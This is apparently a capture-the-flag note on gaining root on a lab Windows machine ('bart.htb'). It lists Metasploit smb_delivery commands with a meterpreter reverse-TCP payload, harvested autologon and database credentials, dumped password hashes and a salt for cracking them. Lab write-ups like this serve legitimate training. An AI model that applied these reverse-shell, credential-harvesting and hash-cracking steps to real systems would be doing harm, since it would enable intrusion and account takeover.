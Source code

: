 # Getting Root

![[Pasted image 20211115041100.png]]

DefaultDomainName    : DESKTOP-7I3S68E
DefaultUserName      : Administrator
DefaultPassword      : 3130438f31186fbaf962f407711faddb


## Metasploit 
```bash
use exploit/windows/smb/smb_delivery
set payload windows/x64/meterpreter/reverse_tcp
```

![[Pasted image 20211115045649.png]]

## Use post credentials with windows autologin
![[Pasted image 20211115050322.png]]
[+] AutoAdminLogon=1, DefaultDomain=DESKTOP-7I3S68E, DefaultUser=Administrator, DefaultPassword=3130438f31186fbaf962f407711faddb

Can use the creds for psexec


## Without MetaSploit

```bash
C:\inetpub\wwwroot\monitor>type config.php
type config.php
<?php
define('PSM_DB_HOST', 'localhost');
define('PSM_DB_PORT', '3306');
define('PSM_DB_NAME', 'sysmon');
define('PSM_DB_USER', 'daniel');
define('PSM_DB_PASS', '?St4r1ng1sCr33py?');
define('PSM_DB_PREFIX', '_');
define('PSM_BASE_URL', 'http://monitor.bart.htb');

```

![[Pasted image 20211115054004.png]]

Creds: harvey:!IC4nB3Th3B3st? 


![[Pasted image 20211115054706.png]]


### Mysql Daniel
* Forum database
![[Pasted image 20211115055226.png]]
bobby      | $P$Bf/6il9y3rO0aOeaJUEf7R.l.loWqj/


* Sysmon database
 ![[Pasted image 20211115055537.png]]
 
 daniel: $2y$10$uagzza/86ZyHN9D7rCz6duKcYFO2JwKY6vNIrjHzuXUiyhl4gZThS
 harvey; $2y$10$rX2CrXDnE06wOXL7H2Vm2OFSGOEqh5LifQ1Z/qZMmA9aEemoq3p0C
 bobby: $2y$10$dwC0mmzzxBk93jRIhr0Jb.7ksIBnME.Y5R7xOe51yi1fvifHmP3T.
 
 
 ### Mysql Harvey
 ![[Pasted image 20211115060227.png]]
 
 
 harvey:faeff13072fffdb78ec3b08427678f18295ee28b8b0befc63eea2135eee85df3
 bobby:e15929d8ce341f2dfa07ac7a0b6f32379e43868631f2aebc05a3a97b235d6dcc 
 daniel:f7dbfae1e05efda233b872e9b7f709d3a0f1b042813be01d7e5b9e9788c7c801
 
 
 ### Cracking the HASH
 
 salt of the hash found on  C:\inetpub\wwwroot\internal-01\simple_chat\includes\validation_func.php
 $salt = '8h@tr-waswe_aT#9TaCHuPhU';
 ![[Pasted image 20211115061459.png]]